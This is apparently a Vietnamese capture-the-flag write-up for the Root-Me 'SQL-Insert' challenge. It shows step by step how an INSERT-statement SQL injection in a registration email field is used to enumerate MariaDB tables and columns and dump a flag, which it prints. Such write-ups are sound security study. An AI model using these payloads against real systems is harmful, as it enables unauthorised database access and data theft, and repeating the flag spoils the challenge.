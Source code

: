 # SQL-Insert

Point: 40

Request Insert: fun & profit

Statement: Retrieve the flag

Related ressource: [SQL injection in insert, update and delete statements](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20SQL%20injection%20in%20insert,%20update%20and%20delete%20statements.pdf?_gl=1*jggomy*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4MjEyODY5NS41OC4xLjE2ODIxMjk4MzIuMC4wLjA.)

# Overview:

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/233762097-617dc631-2eb0-46a2-8ee2-84c14a9ab232.png)

Challenge lần này cung cấp ta một form đăng kí và đăng nhập.Lấy được password admin là có được flag

Tên đề của bài này là INSERT, thì mình nghĩ sẽ có lien quan đến phần đăng kí

# Solution:

Đầu tien, tạo 1  account sau đó đi đăng nhập

 ```
 Username: admin
 Password: 123123
 Email: admin@gmail.com
 ```
![image](https://user-images.githubusercontent.com/115911041/233773209-e4fa2799-c554-4240-bb72-f66bb9bdb06c.png)

Kết quả hiển thị ra username và email. Ta có thể khai thác SQL ở phần này.Giờ mình sẽ thử giả lập lại phần đăng kí 

```
$username = $POST_['username'];
$password = $POST_['password'];
$email = $POST_['email'];

INSERT INTO example_table VALUES('$username','$password','$email');
```

Mình đã có thử một vài payload ở username thì nó bị filter nên mình sẽ chuyển sang email để khai thác.

Mình đã có đọc doc và nghiên cứu. Phát hiện ra mình có thể chèn payload kiểu như thế này

`INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f')`

Mình sẽ thử mô phỏng cho các bạn dễ hiểu hơn 

```
$username = admin
$password = 123123
$email = c'),('d','e','f') -- -

INSERT INTO example_table (a,b,c) VALUES ('a','b','c'),('d','e','f') -- -
```

Vậy thì ta sẽ có công thức payload như sau
`email'),('username', 'password', 'payload') -- -`

Sau khi đã có phương pháp giải rồi, mình tạo 1 account mới với paload như trên

```
Username = admin17
Password = 123123
email = gg'),('ss','ss',select version()))-- -
```
![image](https://user-images.githubusercontent.com/115911041/235315371-e54023cb-36b5-41cf-ab8e-aeb0b9bc199d.png)

Sau đó login với `username= ss` và `password=ss`

![image](https://user-images.githubusercontent.com/115911041/235315355-2bbc7aa7-4128-49ea-bca8-25fe38a3099e.png)

Kết quả cho ra `Database version(): 10.3.34-MariaDB-0ubuntu0.20.04.1`. Ta tiếp tục fuzz để tìm ra được table và column, nhưng khi thử thì bị message “Request failed” cho đến khi sử dụng LIMIT thì mới biết là nó bị giới hạn

`email= gg'),('x','x',(select table_name from information_schema.tables limit 1))-- -`

![image](https://user-images.githubusercontent.com/115911041/235315633-b55ec0f0-d2ef-4d72-b0cd-747a755659e2.png)

Sau đó đăng nhập lại `username=x` và `password=x`

![image](https://user-images.githubusercontent.com/115911041/235315743-b740c121-ec33-498f-bd5b-593458944037.png)

Ta có kết quả là 1 table `ALL_PLUGINS`. Mình sử dụng `GROUP_CONCAT` để show các table. Và database đang chạy MariaDB, nên mình có tra [ở đây](https://mariadb.com/kb/en/information-schema-processlist-table/), ta sử dụng ` information_schema.processlist` để check các thread đang thực thi của server database.

`email= gg'),('y','y',(select group_concat(INFO) from information_schema.processlist limit 1))-- -`

Sau đó đăng nhập lại

![image](https://user-images.githubusercontent.com/115911041/235316022-ad64b291-9afa-4bc3-8c72-4d0c827d259b.png)

Tới chỗ này mình thấy khá kì kì, nên là mình sẽ thử payload mới

`email= gg'),('z','z',(select group_concat(table_name) from information_schema.tables where table_schema=database()))-- -`

![image](https://user-images.githubusercontent.com/115911041/235316471-6fa4fc61-196e-4d5a-bbbd-8e0c2ab485ac.png)

Thấy có 2 bảng là membres và flag. Cái ta quan tâm là flag nên ta sẽ khai thác bảng flag.

`email= gg'),('v','v',(select group_concat(column_name) from information_schema.columns where table_name='flag'))-- -`

![image](https://user-images.githubusercontent.com/115911041/235316581-82e47505-95c0-46a3-a357-e8cc0c62b7ea.png)

Lại cho ra 1 cột flag, ta tiếp tục khai thác

`email= gg'),('u','u',(select group_concat(flag) from flag))-- -`

![image](https://user-images.githubusercontent.com/115911041/235316681-005e5c0a-2f14-410e-95af-0259e13234f5.png)

`Flag:moaZ63rVXUhlQ8tVS7Hw`


